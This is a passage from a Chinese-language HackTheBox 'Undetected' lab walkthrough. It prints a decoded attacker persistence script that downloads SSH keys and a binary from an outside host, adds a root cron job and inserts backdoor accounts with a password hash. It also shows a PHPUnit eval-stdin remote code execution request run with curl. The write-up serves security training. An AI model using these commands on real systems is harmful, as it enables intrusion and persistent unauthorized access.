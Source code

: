 # 用 XXD 解码

这是一个冗长的输出，但有一个明显的十六进制字符串，我用 xxd 解码:

```
┌──(root💀kali)-[~/htb/undetected]
└─# echo 776765742074656d<SNIP>572732e7478743b | xxd -r -p | sed 's/;/\n/g'
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys
wget tempfiles.xyz/.main -O /var/lib/.main
chmod 755 /var/lib/.main
echo "* 3 * * * root /var/lib/.main" >> /etc/crontab
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd
while read -r user group home shell _
do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd
done < users.txt
rm users.txt
```

# 与 JohnTheRipper 一起破解

我们看到这是一个脚本，它复制文件，设置 cronjob，添加用户和密码，然后整理。我们可以从这行代码中取出密码的散列，用 JohnTheRipper 破解它:

```
echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow
```

我们需要 passwd 文件来查看散列是针对哪个用户的:

```
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /etc/passwd');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<SNIP>
steven:x:1000:1000:Steven Wright:/home/steven:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
steven1:x:1000:1000:,,,:/home/steven:/bin/bash
```

我们有两个 steven 帐户，看上面的回显，它添加了一个 1，所以我们知道我们正在破解的帐户是 steven1。将该行放入文件中:

```
┌──(root💀kali)-[~/htb/undetected]
└─# echo "steven1:x:1000:1000:,,,:/home/steven:/bin/bash" > steven1.passwd
```

现在将密码的散列放在一个文件中:
